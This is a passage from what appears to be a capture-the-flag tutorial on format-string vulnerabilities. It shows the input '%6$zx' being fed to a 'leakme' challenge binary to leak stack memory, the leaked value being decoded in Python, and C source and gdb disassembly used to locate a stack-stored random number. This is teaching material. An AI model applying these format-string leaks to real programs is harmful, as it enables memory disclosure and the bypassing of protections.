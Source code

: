```
# again, run without gdb
./leakme
Give me something to say:
%6$zx
Holy 787a243625, Batman!
Hey, what number am I thinking of?
^C
# python -c "print '787a243625'.decode('hex')"
xz$6%
# once again backwards b/c of endianess, slap a [::-1] on the end of the python string to reverse it.
```

### Getting the keys to the castle (putting it all together)
We want to access a stack-allocated variable at a specific location on the stack. We need to:
* figure out which location on the stack to access
* create a format string that prints that.

Let's look at `main` again.

```c
void main() {
    // edited for clarity
    // This code generates a random number and stores it on the stack.
    int a = rand(); // stack-allocated variable
    echo();
    printf("Hey, what number am I thinking of? \n");
    challenge(a);
}
```

And the disassembly:

```
gdb-peda$ disas main
Dump of assembler code for function main:
   0x000000000040099f <+0>: push   rbp
   0x00000000004009a0 <+1>: mov    rbp,rsp
   ... TRUNCATED ...
   0x00000000004009bf <+32>:    call   0x400760 <rand@plt>
   0x00000000004009c4 <+37>:    mov    DWORD PTR [rbp-0x4],eax
   0x00000000004009c7 <+40>:    mov    eax,0x0
   0x00000000004009cc <+45>:    call   0x400857 <echo>
   ... TRUNCATED ...
   0x00000000004009f1 <+82>:    call   0x4008fe <challenge>
   0x00000000004009f6 <+87>:    mov    eax,0x0
   0x00000000004009fb <+92>:    leave
   0x00000000004009fc <+93>:    ret
End of assembler dump.
gdb-peda$
```


[1]: https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64
[2]: http://ctf.sigpwny.com